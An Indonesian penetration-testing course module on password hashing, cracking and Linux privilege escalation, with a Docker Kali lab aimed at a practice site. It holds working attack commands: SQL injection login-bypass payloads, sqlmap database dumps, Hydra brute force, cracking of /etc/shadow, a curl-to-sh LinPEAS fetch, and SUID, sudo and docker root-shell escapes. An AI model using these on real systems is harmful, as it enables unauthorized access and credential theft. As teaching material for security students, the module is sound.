

# 🛡️ Pertemuan 7: Password Cracking & Privilege Escalation

**Tujuan:** Memahami mekanisme penyimpanan password, teknik pembobolan hash, serta strategi peningkatan hak akses (PrivEsc) pada sistem operasi menggunakan target web yang telah disiapkan.

---

## 📚 Materi Teori

### 1. Mekanisme Hashing
Password tidak disimpan dalam bentuk teks biasa, melainkan diubah menjadi **Hash**.
- **MD5/SHA1**: Algoritma lama yang sudah tidak aman.
- **SHA256/SHA512**: Standar industri saat ini.
- **Salt**: Data acak tambahan untuk mencegah serangan *Rainbow Table*.

### 2. Teknik Serangan Password
- **Brute Force**: Mencoba semua kombinasi karakter.
- **Dictionary Attack**: Menggunakan daftar kata populer (wordlist).
- **Rainbow Table**: Menggunakan tabel hash yang sudah dihitung sebelumnya.

### 3. Privilege Escalation (PrivEsc)
Proses meningkatkan hak akses dari *Low-privileged User* menjadi *Root* (Linux) atau *SYSTEM* (Windows).


```mermaid
graph TD
    A[Initial Access] --> B{Manual Enumeration}
    B --> C[Kernel Exploits]
    B --> D[Misconfigured Services]
    B --> E[Insecure SUID/Sudo]
    C & D & E --> F[Root/Admin Access]
    
    style F fill:#f96,stroke:#333
```

---

## 🛠️ Hands-on Practice

### 1. Cracking Linux Hashes dengan John the Ripper
Di Linux, password disimpan di `/etc/shadow`. Kita perlu menggabungkannya dengan `/etc/passwd`.

```bash
# Menggabungkan passwd dan shadow (butuh sudo)
sudo unshadow /etc/passwd /etc/shadow > myhashes.txt

# Cracking menggunakan John the Ripper dengan wordlist default
john --wordlist=/usr/share/wordlists/rockyou.txt myhashes.txt

# Melihat hasil
john --show myhashes.txt
```

### 2. Online Brute Force dengan Hydra
Mencoba login web atau SSH menggunakan dictionary attack.
```bash
# Mencoba login pada web form (gunakan target yang sesuai)
hydra -l admin -P /usr/share/wordlists/rockyou.txt hackable-pentest.vercel.app http-post-form "/api/login:username=^USER^&password=^PASS^:F=Invalid credentials"
```

### 3. Linux PrivEsc Check
Gunakan script otomatis untuk mencari celah peningkatan hak akses.
```bash
# Menjalankan LinPEAS
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

---

## 📄 Reporting & Templates
Laporan profesional harus mengikuti standar industri. Gunakan template berikut sebagai referensi:
- **Template Laporan Pentest (Indo)**: [https://docs.google.com/document/d/1Uar2BahFKRHPhia_OQ6tA0wKSE46tG31z3ItGNpsInI/edit](https://docs.google.com/document/d/1Uar2BahFKRHPhia_OQ6tA0wKSE46tG31z3ItGNpsInI/edit)
- **Template Laporan Pentest (Eng)**: [https://docs.google.com/document/d/1M8hRmzCLA9uPes7uhJ355JLUylVUBSspFWDfIqmUqmA/edit](https://docs.google.com/document/d/1M8hRmzCLA9uPes7uhJ355JLUylVUBSspFWDfIqmUqmA/edit)

---

## 🐳 Step-by-Step: Docker Kali Linux Lab

Lakukan praktikum Password Cracking & Privilege Escalation dengan target **Hackable Pentest Web** (https://hackable-pentest.vercel.app). Ikuti langkah-langkah berikut secara berurutan.

---

### Tahap 1: Persiapan Kali Linux Container

1.  **Jalankan Container Kali Linux**:
    ```bash
    docker run -it --rm kalilinux/kali-rolling /bin/bash
    ```

2.  **Update & Install Tools**:
    ```bash
    apt update && apt install -y curl hydra john sqlmap wget
    ```

3.  **Siapkan Wordlist**:
    ```bash
    # Ekstrak rockyou.txt jika tersedia
    if [ -f /usr/share/wordlists/rockyou.txt.gz ]; then
        gunzip /usr/share/wordlists/rockyou.txt.gz
    fi
    
    # Buat wordlist sederhana untuk testing
    echo "password123" > /tmp/small.txt
    echo "admin" >> /tmp/small.txt
    echo "test" >> /tmp/small.txt
    echo "qwerty" >> /tmp/small.txt
    ```

---

### Tahap 2: Reconnaissance Target

4.  **Analisis Awal Target**:
    ```bash
    # Cek header response
    curl -I https://hackable-pentest.vercel.app
    
    # Cek halaman utama
    curl https://hackable-pentest.vercel.app
    
    # Cek endpoint login
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -H "Content-Type: application/x-www-form-urlencoded" \
      -d "username=test&password=test"
    ```

5.  **Identifikasi Form Login**:
    ```bash
    # Cek apakah ada parameter yang diterima
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=admin&password=admin123"
    ```

---

### Tahap 3: SQL Injection (A03 - OWASP)

6.  **Manual SQL Injection**:
    ```bash
    # Injeksi SQL untuk bypass login
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=admin' -- -&password=anything"
    
    # Injeksi dengan OR 1=1
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=admin' OR '1'='1' -- -&password=test"
    
    # Injeksi untuk ekstrak data
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=admin' UNION SELECT 1,2,3 -- -&password=test"
    ```

7.  **Otomatisasi dengan SQLMap**:
    ```bash
    # Deteksi kerentanan SQL injection
    sqlmap -u "https://hackable-pentest.vercel.app/api/login" \
      --data="username=admin&password=test" \
      --level=3 --risk=2 --batch
    
    # Ekstrak database
    sqlmap -u "https://hackable-pentest.vercel.app/api/login" \
      --data="username=admin&password=test" \
      --dbs --batch
    
    # Ekstrak tabel
    sqlmap -u "https://hackable-pentest.vercel.app/api/login" \
      --data="username=admin&password=test" \
      -D hackable_db --tables --batch
    
    # Dump data users
    sqlmap -u "https://hackable-pentest.vercel.app/api/login" \
      --data="username=admin&password=test" \
      -D hackable_db -T users --dump --batch
    ```

---

### Tahap 4: Password Cracking

8.  **Mendapatkan Hash Password**:
    ```bash
    # Dari hasil SQLMap dump, simpan hash yang didapat
    # Misal jika mendapatkan password hash MD5
    echo "5f4dcc3b5aa765d61d8327deb882cf99" > /tmp/hash_md5.txt
    
    # Atau jika mendapatkan plain text, simpan untuk brute force
    echo "admin" > /tmp/users.txt
    ```

9.  **Crack dengan John the Ripper**:
    ```bash
    # Crack hash MD5 dengan wordlist
    john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash_md5.txt
    
    # Dengan wordlist custom
    john --format=raw-md5 --wordlist=/tmp/small.txt /tmp/hash_md5.txt
    
    # Lihat hasil
    john --show /tmp/hash_md5.txt
    ```

10. **Crack dengan Hashcat** (opsional):
    ```bash
    # Install hashcat jika belum
    apt install -y hashcat
    
    # Mode 0 = straight dictionary, mode 500 = MD5
    hashcat -m 0 -a 0 /tmp/hash_md5.txt /usr/share/wordlists/rockyou.txt
    
    # Dengan wordlist custom
    hashcat -m 0 -a 0 /tmp/hash_md5.txt /tmp/small.txt
    ```

---

### Tahap 5: Brute Force dengan Hydra

11. **Hydra untuk Web Form**:
    ```bash
    # Cek response saat login gagal
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=wrong&password=wrong"
    
    # Brute force dengan satu user
    hydra -l admin -P /usr/share/wordlists/rockyou.txt \
      hackable-pentest.vercel.app http-post-form \
      "/api/login:username=^USER^&password=^PASS^:F=Invalid"
    
    # Dengan user list
    hydra -L /tmp/users.txt -P /usr/share/wordlists/rockyou.txt \
      hackable-pentest.vercel.app http-post-form \
      "/api/login:username=^USER^&password=^PASS^:F=Invalid"
    
    # Rate limiting (lebih lambat)
    hydra -l admin -P /tmp/small.txt \
      -t 4 -w 3 hackable-pentest.vercel.app http-post-form \
      "/api/login:username=^USER^&password=^PASS^:F=Invalid"
    ```

---

### Tahap 6: Network Traffic Analysis

12. **Analisis Traffic dengan tcpdump** (dalam container):
    ```bash
    # Install tcpdump
    apt install -y tcpdump
    
    # Tangkap traffic ke target
    tcpdump -i any host hackable-pentest.vercel.app -w /tmp/traffic.pcap
    
    # Di terminal lain, jalankan request
    curl -X POST https://hackable-pentest.vercel.app/api/login \
      -d "username=admin&password=test"
    
    # Analisis hasil capture
    tcpdump -r /tmp/traffic.pcap -A | grep -i "password"
    ```

---

### Tahap 7: Privilege Escalation (Simulasi)

**Catatan:** Karena target `hackable-pentest.vercel.app` adalah frontend statis tanpa akses OS langsung, bagian ini disimulasikan untuk pemahaman konsep Privilege Escalation pada server backend.

13. **Simulasi Enumeration (Jika Mendapat Akses Server)**:
    ```bash
    # Setelah mendapatkan shell di server target
    whoami
    id
    uname -a
    
    # Cek user dengan sudo privileges
    sudo -l
    
    # Cari binary dengan SUID bit
    find / -perm -4000 -type f 2>/dev/null
    
    # Cek cron jobs
    cat /etc/crontab 2>/dev/null
    ls -la /etc/cron* 2>/dev/null
    ```

14. **Eksploitasi SUID Binary**:
    ```bash
    # Jika menemukan binary seperti /usr/bin/vi dengan SUID
    /usr/bin/vi
    # Dalam vi: :!/bin/bash
    
    # Atau dengan find
    find / -exec /bin/bash -p \; -quit 2>/dev/null
    ```

15. **Eksploitasi Sudo Misconfiguration**:
    ```bash
    # Jika user memiliki sudo tanpa password untuk binary tertentu
    sudo /usr/bin/vi
    # Dalam vi: :!/bin/bash
    
    # Atau untuk python
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

16. **Docker Privilege Escalation** (Jika di environment container):
    ```bash
    # Cek akses docker
    groups | grep docker
    
    # Jika ada akses, eskalasi
    docker run -it --rm -v /:/mnt alpine chroot /mnt /bin/bash
    ```

---

## 📊 Ringkasan Perintah Penting untuk Target Web

| Tujuan | Perintah | Keterangan |
|--------|----------|------------|
| Cek endpoint login | `curl -X POST https://hackable-pentest.vercel.app/api/login -d "username=test&password=test"` | Uji respons |
| SQL injection manual | `curl -X POST ... -d "username=admin' -- -&password=any"` | Bypass login |
| SQL injection otomatis | `sqlmap -u "URL" --data="..." --dump` | Ekstrak database |
| Crack hash MD5 | `john --format=raw-md5 --wordlist=rockyou.txt hash.txt` | Dictionary attack |
| Brute force web login | `hydra -l admin -P rockyou.txt hackable-pentest.vercel.app http-post-form "/api/login:username=^USER^&password=^PASS^:F=Invalid"` | Online attack |
| Capture traffic | `tcpdump -i any host hackable-pentest.vercel.app -w capture.pcap` | Analisis network |
| Cek header keamanan | `curl -I https://hackable-pentest.vercel.app` | Identifikasi misconfig |

---

## 📖 Referensi

### Dokumentasi Resmi
- **John the Ripper Official**: [openwall.com/john](https://www.openwall.com/john/)
- **Hashcat Official**: [hashcat.net](https://hashcat.net/)
- **Hydra Official**: [github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
- **SQLMap Official**: [sqlmap.org](https://sqlmap.org/)

### Panduan dan Cheatsheet
- **PayloadsAllTheThings**: [SQL Injection & Password Cracking](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **GTFOBins**: [Linux Binary Exploitation](https://gtfobins.github.io/)
- **LinPEAS**: [PEASS-ng Repository](https://github.com/peass-ng/PEASS-ng)

### Keamanan Web
- **OWASP Top 10**: [owasp.org/www-project-top-ten](https://owasp.org/www-project-top-ten/)
- **OWASP Testing Guide**: [WSTG](https://owasp.org/www-project-web-security-testing-guide/)
- **PortSwigger Web Security Academy**: [portswigger.net/web-security](https://portswigger.net/web-security)

### Tools Pentesting
- **Nmap**: [nmap.org](https://nmap.org/)
- **Burp Suite**: [portswigger.net/burp](https://portswigger.net/burp)
- **Wireshark**: [wireshark.org](https://www.wireshark.org/)
- **tcpdump**: [tcpdump.org](https://www.tcpdump.org/)

### Panduan Target
- **Hackable Pentest Web**: [https://hackable-pentest.vercel.app](https://hackable-pentest.vercel.app)

---

## ⚠️ Catatan Penting

1. **Wordlist rockyou.txt** perlu diekstrak terlebih dahulu:
   ```bash
   gunzip /usr/share/wordlists/rockyou.txt.gz
   ```

2. **Selalu dapatkan izin** sebelum melakukan pentesting pada sistem yang bukan milik Anda. Target `hackable-pentest.vercel.app` adalah platform latihan yang dirancang untuk diuji.

3. **Hydra parameter** perlu disesuaikan dengan response gagal login:
   - Cek response saat login gagal menggunakan curl
   - Gunakan string yang tepat untuk parameter `F=` (Failed condition)

4. **Jika SQLMap mengalami kendala**, coba dengan level dan risk yang lebih tinggi:
   ```bash
   sqlmap -u "URL" --data="..." --level=5 --risk=3 --batch
   ```

5. **Untuk akses container**, pastikan Docker sudah terinstall dan running:
   ```bash
   docker ps
   docker run hello-world  # Test koneksi
   ```
